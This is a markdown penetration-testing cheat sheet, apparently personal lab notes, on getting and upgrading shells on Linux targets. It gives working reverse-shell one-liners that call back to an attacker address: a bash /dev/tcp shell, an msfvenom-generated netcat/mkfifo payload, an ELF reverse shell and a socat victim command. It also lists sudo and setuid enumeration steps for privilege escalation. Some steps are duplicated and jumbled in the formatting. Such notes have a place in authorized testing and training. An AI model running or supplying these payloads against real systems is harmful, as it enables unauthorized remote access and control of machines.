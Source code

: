 ### Check what command the user can run via sudo

This requires both an interactive shell and to know the user password
    ```bash
sudo -l
```
for a semi interactive shells use the following
```bash
sudo -lS
```
- ### One-liner reverse shells
  
  1.  Only bash
  ```bash
  bash -c "bash -i >& /dev/tcp/10.10.14.147/4444 0>&1"
  ```
  For more reverse shell [check here](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
  
  2. `msfvenom` can build one-liner commands from many payloads
  
    1. List payloads
  ```bash
  msfvenom -l payloads | grep "cmd/unix" | awk '{print $1}'	
  ```
  
    2. Use netcat regardless if it's the GNU ore the openBSD (the one with `-e` option) implementation
  ```bash
  ┌──(crazybyte㉿kali)-[~]
  └─$ msfvenom -p cmd/unix/reverse_netcat lhost=10.10.14.147 lport=4444
  [-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
  [-] No arch selected, selecting arch: cmd from the payload
  No encoder specified, outputting raw payload
  Payload size: 90 bytes
  mkfifo /tmp/zmko; nc 10.10.14.147 4444 0</tmp/zmko | /bin/sh >/tmp/zmko 2>&1; rm /tmp/zmko
  ```
  
     `nc` needs to be available and reaceable from `$PATH`.
  
    3. Create an ELF x64 reverse shell
  ```bash
  msfvenom -p linux/x64/shell_reverse_tcp lhost=10.10.14.147 lport=4444 -f elf > rv
  chmod +x rv
  ```
- ### Upgrade from a simple shell to a fully interactive tty
  
  Information taken [from blog.ropnop.com](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) 
  
  * With python
  
      python -c 'import pty; pty.spawn("/bin/bash")'
  
  * With socat
  
      (Attacker):  socat file:`tty`,raw,echo=0 tcp-listen:4444
      (Victim):    socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.147:4444
      
  static socat can be downloaded from https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat
  
  * From netcat + python + magic (Phineas Fisher method)
  
  In reverse shell
  
      python -c 'import pty; pty.spawn("/bin/bash")'
      Ctrl-Z
  
  In Kali
	- ```
	  bash
	  reset
	  export SHELL=bash
	  export TERM=xterm-256color
	  stty rows <num> columns <cols>
	  ```
- stty raw -echo
      fg
  
  In reverse shell
  
      reset
      export SHELL=bash
      export TERM=xterm-256color
      stty rows <num> columns <cols>
- stty raw -echo
      fg
  
  In reverse shell
  
      reset
      export SHELL=bash
      export TERM=xterm-256color
      stty rows <num> columns <cols>
- ### Look for unusual setuid executables
  ```bash
  find .  -perm -4000 2>/dev/null
  ```